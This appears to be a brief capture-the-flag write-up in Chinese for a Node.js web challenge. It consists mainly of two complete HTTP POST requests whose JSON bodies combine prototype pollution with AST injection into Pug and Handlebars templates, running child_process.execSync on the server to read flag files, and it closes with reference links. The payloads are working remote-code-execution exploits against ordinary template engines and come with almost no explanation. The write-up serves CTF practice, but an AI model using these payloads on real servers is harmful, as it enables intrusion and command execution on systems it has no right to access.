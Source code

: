 ## 利用方法

```
POST /api/submit HTTP/1.1
Host: 134.209.22.191:32463
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://134.209.22.191:32463/
Content-Type: application/json
Origin: http://134.209.22.191:32463
Content-Length: 171
Connection: close

{   "artist.name":"Gingell",
    "__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync(`$(cat flag*)`)"
    }

}
```
```
POST /api/submit HTTP/1.1
Host: 134.209.22.191:32463
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://134.209.22.191:32463/
Content-Type: application/json
Origin: http://134.209.22.191:32463
Content-Length: 392
Connection: close

{   "artist.name":"Gingell",
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`$(cat flag*)`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]

}
```


# 参考链接
[https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug
https://blog.p6.is/AST-Injection/](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug
https://blog.p6.is/AST-Injection/)